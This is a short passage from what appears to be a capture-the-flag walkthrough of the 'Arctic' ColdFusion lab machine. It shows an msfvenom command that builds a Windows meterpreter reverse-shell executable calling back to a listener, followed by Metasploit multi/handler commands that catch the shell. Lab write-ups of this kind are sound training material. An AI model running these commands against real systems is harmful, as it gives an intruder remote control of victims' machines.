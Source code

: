```sh
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.9 lport=4242 -f exe > shell.exe 
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/msvenom.png)

so we set a listner so as to listern for the shell

```sh
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.14.9
set LPORT 4242
run
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/metapreter.png)

now we run this to the session of cold fusion
